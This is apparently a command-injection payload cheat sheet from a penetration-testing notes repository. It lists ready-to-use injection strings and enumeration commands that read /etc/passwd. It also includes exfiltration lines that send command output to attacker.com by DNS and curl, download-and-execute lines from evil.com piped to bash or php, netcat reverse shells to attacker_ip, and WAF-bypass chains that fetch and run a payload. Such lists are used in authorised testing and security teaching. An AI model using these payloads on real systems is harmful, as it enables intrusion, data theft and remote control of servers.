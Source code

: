 # execute system commands via user input. when filters meet shell functions.

## quick test payloads

basic command separators:
```bash
; id
& whoami  
&& uname -a
| pwd
|| ls -la
`id`
$(whoami)
```

url-encoded newline:
```bash
%0a id
```

## blind testing

time-based confirmation:
```bash
& ping -c 10 127.0.0.1 &
& sleep 10 &
```

output to file:
```bash
& whoami > /var/www/images/output.txt &
& id > /tmp/cmd_output.txt &
```

## enumeration commands

**linux:**
```bash
whoami          # current user
id              # user info and groups  
uname -a        # system info
ifconfig        # network config
ps aux          # running processes
cat /etc/passwd # user accounts
```

**windows:**  
```bash
whoami          # current user
whoami /priv    # user privileges
ipconfig        # network config
dir             # directory listing
ver             # os version
net user        # user accounts
```

## platform-agnostic payloads

work on both linux and windows:
```bash
ls||id
ls | id  
ls && id
ls & id
ls %0A id
```

## out-of-band exploitation

dns exfiltration:
```bash
& nslookup attacker.com &
& nslookup `whoami`.attacker.com &
```

http callback:
```bash
& curl http://attacker.com/callback?data=`id|base64` &  
& wget http://attacker.com/`whoami` &
```

## reverse shells

download and execute:
```bash
& wget https://evil.com/shell.txt -O /tmp/shell.php & php /tmp/shell.php &
& curl https://evil.com/rev.sh | bash &
```

netcat reverse shell:
```bash
& nc -e /bin/bash attacker_ip 4444 &
& nohup nc -e /bin/bash attacker_ip 4444 &
```

## waf bypass techniques

encoding variations:
```bash
vuln=127.0.0.1%0a wget https://evil.txt/reverse.txt -O /tmp/reverse.php %0a php /tmp/reverse.php
```

base64 payload delivery:
```bash
vuln=echo PAYLOAD > /tmp/payload.txt; cat /tmp/payload.txt | base64 -d > /tmp/payload; chmod 744 /tmp/payload; /tmp/payload
```

## null byte bypass (legacy)

poison null byte in old systems:
```bash
/download.php?file=../../etc/passwd%2500.md
```

server parses to `.md` but stops at null byte, returns `/etc/passwd`

## operational notes

- test multiple injection points: url params, post data, headers, cookies
- [!] some payloads crash services - test in isolated environment first
- always use `&` suffix for background execution to avoid hanging requests  
- watch for output in error pages, logs, or accessible files
- time delays prove execution even without visible output

# TODO: test against command injection filters and modsecurity